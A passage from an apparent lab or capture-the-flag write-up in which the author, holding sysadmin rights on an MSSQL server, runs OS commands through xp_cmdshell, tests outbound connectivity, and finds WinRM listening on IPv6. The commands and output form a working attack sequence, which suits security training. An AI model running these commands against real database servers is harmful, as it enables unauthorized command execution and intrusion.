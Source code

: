 Now that we have `sysadmin` privileges, we can execute commands using `xp_cmdshell`:

```
PS C:\Users\snowscan> $user = "booya"
PS C:\Users\snowscan> $pass = "0wned123!"
PS C:\Users\snowscan> get-sqlquery -verbose -instance $i -username $user -password $pass -query "xp_cmdshell 'whoami'"
VERBOSE: 10.13.38.11,1433 : Connection Success.

output
------
nt service\mssql$poo_public
```

Even though we have `sysadmin` access in the database, we only a limited OS access with `nt service\mssql$poo_public`

We don't have outbound IPv4 connectivity, the General Failure error message probably means there's no IPv4 address on the interface:

```
PS C:\Users\snowscan> get-sqlquery -verbose -instance $i -username $user -password $pass -query "xp_cmdshell 'ping 10.14.14.7'"
VERBOSE: 10.13.38.11,1433 : Connection Success.

output
------

Pinging 10.14.14.7 with 32 bytes of data:
General failure.
General failure.
General failure.
General failure.

Ping statistics for 10.14.14.7:
    Packets: Sent = 4, Received = 0, Lost = 4 (100% loss),
```

Local port enumeration shows that the WinRM port 5985 is listening for IPv6 connections:

```
 output
 ------
 
 Active Connections
 
   Proto  Local Address          Foreign Address        State

   TCP    [::]:80                [::]:0                 LISTENING
   TCP    [::]:135               [::]:0                 LISTENING
   TCP    [::]:445               [::]:0                 LISTENING
   TCP    [::]:1433              [::]:0                 LISTENING
   TCP    [::]:5985              [::]:0                 LISTENING
   TCP    [::]:41433             [::]:0                 LISTENING
   TCP    [::]:47001             [::]:0                 LISTENING
   TCP    [::]:49664             [::]:0                 LISTENING
   TCP    [::]:49665             [::]:0                 LISTENING
   TCP    [::]:49666             [::]:0                 LISTENING
   TCP    [::]:49667             [::]:0                 LISTENING
   TCP    [::]:49668             [::]:0                 LISTENING
   TCP    [::]:49669             [::]:0                 LISTENING
   TCP    [::]:49710             [::]:0                 LISTENING
   TCP    [::1]:50280            [::]:0                 LISTENING
   TCP    [::1]:50311            [::]:0                 LISTENING
```
